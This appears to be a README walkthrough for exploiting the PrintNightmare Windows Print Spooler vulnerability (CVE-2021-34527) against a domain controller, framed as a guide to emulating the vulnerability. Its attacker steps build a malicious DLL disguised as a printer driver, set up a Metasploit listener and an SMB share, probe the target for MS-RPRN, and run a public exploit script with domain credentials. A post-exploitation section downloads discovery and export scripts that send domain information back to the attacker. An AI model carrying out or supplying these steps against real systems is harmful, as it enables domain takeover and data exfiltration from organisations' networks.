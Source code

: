 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

##Pre-exploitation

**Attacker**
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running (the vulnerability can't be exploited if the protocol isn't enabled)
   ```
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
   ```
   
7. Exploit the vulnerability to the target machine
   Download the python script: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file
   
```console
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>
```

**Target machine**
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the service 
```Powershell
PS C:\Users\Administrator> get-service spooler
PS C:\Users\Administrator> start-service spooler
```
**e.g. replace ```<username>``` with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discover victim DC machine and domain group info, then send them back to attacker listener. 

```powershell
PS Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat
PS Invoke-WebRequest -Uri path/to/export.bat -o export.bat
```


